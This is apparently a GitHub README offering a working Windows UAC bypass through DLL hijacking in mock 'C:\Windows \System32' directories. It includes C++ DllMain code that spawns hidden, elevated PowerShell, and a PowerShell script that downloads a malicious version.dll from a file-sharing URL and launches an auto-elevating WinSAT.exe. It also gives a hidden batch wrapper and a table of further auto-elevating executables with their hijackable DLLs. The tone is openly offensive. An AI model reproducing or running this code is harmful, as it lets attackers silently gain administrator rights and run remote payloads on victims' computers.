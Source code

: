 # Powershell UAC bypass
Originally discordvered by Daniel Gebert

---

<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
        <li>
      <a href="#explanations">Explanations</a>
          <ul>
        <li><a href="#what-is-uac">What is UAC?</a></li>
        <li><a href="#dll-hijacking">DLL Hijacking</a></li>
        <li><a href="#mock-directories">Mock Directories</a></li>
    </ul>
    </li>
    <li><a href="#auto-elavate-applications">Auto elavate applications</a></li>
    
  </ol>
</details>

---


# Deployment

First edit the file to download your malicous DLL from [Filebin](https://filebin.net/)\
To easiliy create said DLL  - I would modify [This template](https://github.com/zeffy/prxdll_templates/tree/master/prxdll_version) with the code below

dllmain.c
```c++
#include "pch.h"
#include "prxdll.h"
#include "windows.h"
BOOL APIENTRY DllMain(
	const HINSTANCE instance,
	const DWORD reason,
	const PVOID reserved)
{
	switch (reason) {
	case DLL_PROCESS_ATTACH:
		WinExec("powershell -NoProfile -ExecutionPolicy bypass -windowstyle hidden -Command \"Start-Process -verb runas powershell\" \"'-NoProfile -windowstyle hidden -ExecutionPolicy bypass -Command YOURPOWERSHELLCOMMANDHERE\" '\"", 1);
		DisableThreadLibraryCalls(instance);
		return prx_attach(instance);
	case DLL_PROCESS_DETACH:
		prx_detach(reserved);
		break;
	}
	return TRUE;
}
```
This should execute some powershell code as admin.\
Next we need to find some autoelavate applications. I prefer to use winSAT.exe as there is no visual GUI when ran. Heres some other <a href="#auto-elavate-applications">Auto elavate applications</a>.

Okay so the powershell source code
```powershell
New-Item '\\?\C:\Windows \System32' -ItemType Directory
Set-Location -Path '\\?\C:\Windows \System32'
copy C:\Windows\System32\WinSAT.exe "C:\windows \System32\winSAT.exe"
Invoke-WebRequest -Uri 'https://filebin.net/bajzrgruy6h83o4n/version.dll' -OutFile 'version.dll'
Start-Process -Filepath 'C:\windows \System32\winSAT.exe'
Start-Sleep -s 1
Remove-Item '\\?\C:\Windows \' -Force -Recurse
```
First modification:\
Build your DLL using visual studio code and upload it to filebin.\
Replace the Invoke-WebRequest Uri with your link and replace the copy argument with the location of your application.\
Now for the final step - Replace every new line with a semicolon and convert it into a batch script
```cmd
powershell.exe -windowstyle hidden -NoProfile -ExecutionPolicy bypass -Command "Yourcodehere"
```
And boom! You can execute that system command and program a UAC bypass payload in most high level languages!

---
<br>

## Explanations

## What Is UAC
Microsoft introduced UAC (User Account Control) with Windows Vista and Windows Server 2008.\
In short terms - UAC aims to improve the security of Microsoft Windows by giving programs standard user privileges until an administrator authorizes an increase or elevation of permissions.  [Wikipedia](https://en.wikipedia.org/wiki/User_Account_Control#Features)

<br>

## DLL Hijacking
DLL Hijacking means a program will load and execute a malicious DLL contained in the same folder as a data file opened by these programs.
[Wikipedia](https://en.wikipedia.org/wiki/Dynamic-link_library#DLL_hijacking)

<br>

## Mock directories
Heres a description I stole from [daniels blog](http://daniels-it-blog.blogspot.com/2020/07/uac-bypass-via-dll-hijacking-and-mock.html)

Mock directories are folders with a trailing space. For example \
```
C:\Windows \System32
```


See the space " " between "Windows" and "\System32".\


##  Auto elavate applications
<table bgcolor="" cellpadding="2" cellspacing="0" style="background: rgb(255, 255, 255); width: 643px;">
	<colgroup><col width="341">
	<col width="75">
	<col width="213">
	</colgroup><tbody><tr bgcolor="" style="background: rgb(229, 229, 229);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<strong><font color="#000000"><font face="">Executable</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<strong><font color="#000000"><font face="">DLL</font></font></strong></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<strong><font color="#000000"><font face="">Comment</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ComputerDefaults.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods.</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">EASPolicyManagerBrokerHost.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">fodhelper.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			settings and can be used to bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">FXSUNATD.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">msconfig.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">OptionalFeatures.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Optional Features</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sdclt.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Can
			also bypass UAC using other methods; opens Windows Backup</font></font></p>
		</td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">ServerManager.exe
			is not present by default</font></font></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">systemreset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">sysprep.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Creates
			sub folder.&nbsp;</font></font><strong><font color="#000000"><font face="">Sysprep
			process has to be killed directly after UAC bypass, otherwise
			sysprep is executed!</font></font></strong></p>
		</td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">SystemSettingsAdminFlows.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WinSAT.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">version.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"></td>
	</tr>
	<tr bgcolor="" style="background: rgb(247, 247, 247);">
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="341"><p align="left">
			<font color="#555555"><font face="">WSReset.exe</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="75"><p align="left">
			<font color="#555555"><font face="">profapi.dll</font></font></p>
		</td>
		<td style="border: 1px solid rgb(220, 220, 220); padding: 0.02in;" width="213"><p align="left">
			<font color="#555555"><font face="">Opens
			Windows Store</font></font></p>
		</td>
	</tr>
</tbody></table>

